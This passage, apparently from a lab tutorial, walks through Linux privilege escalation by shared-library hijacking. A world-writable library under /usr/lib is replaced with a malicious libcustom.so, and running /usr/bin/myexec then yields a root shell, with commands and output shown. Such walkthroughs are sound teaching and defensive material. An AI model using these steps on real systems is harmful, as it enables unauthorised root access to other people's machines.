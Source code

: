 ```bash
low@ubuntu:~/so-files$ sudo cp ~/so-files/myexec /usr/bin/myexec2
```

Try to execute the `/usr/bin/myexec` binary:

```bash
low@ubuntu:~/so-files/evil$ /usr/bin/myexec
Message from myexec.c!
Message from libcustom.c
```

As we can see above, the library gets loaded and executed.

# Privilege Escalation

## Method #1: Write permissions in /lib -> /usr/lib

Let's navigate to where the malicious library is located:

```bash
low@ubuntu:~/so-files$ cd ~/so-files/evil
low@ubuntu:~/so-files/evil$ 
```

Startup by adding write permissions to the folder `/usr/lib`, this is a misconfiguration that should never be done:

```bash
low@ubuntu:~/so-files/evil$ sudo chmod o+w /usr/lib/libcustom.so
```

Replace the original library file with the malicious library file:

```bash
low@ubuntu:~/so-files/evil$ cp libcustom.so /lib/libcustom.so
```

Using `ldd` we can see that the library `libcustom.so` is pointing to the file that we just replaced:

```bash
low@ubuntu:~/so-files/evil$ ldd /usr/bin/myexec
	linux-vdso.so.1 (0x00007fff77137000)
	libcustom.so => /lib/libcustom.so (0x00007fdca1371000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fdca117f000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fdca138c000)
```

If we execute the binary, it will load the malicious library:

```bash
low@ubuntu:~/so-files/evil$ /usr/bin/myexec
Message from myexec.c!
I'm the bad library!
I'm trying to spawn a root shell...
Check your shell!
root@ubuntu:~/so-files/evil# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),1000(low)
root@ubuntu:~/so-files/evil# whoami
root
root@ubuntu:~/so-files/evil# 
```
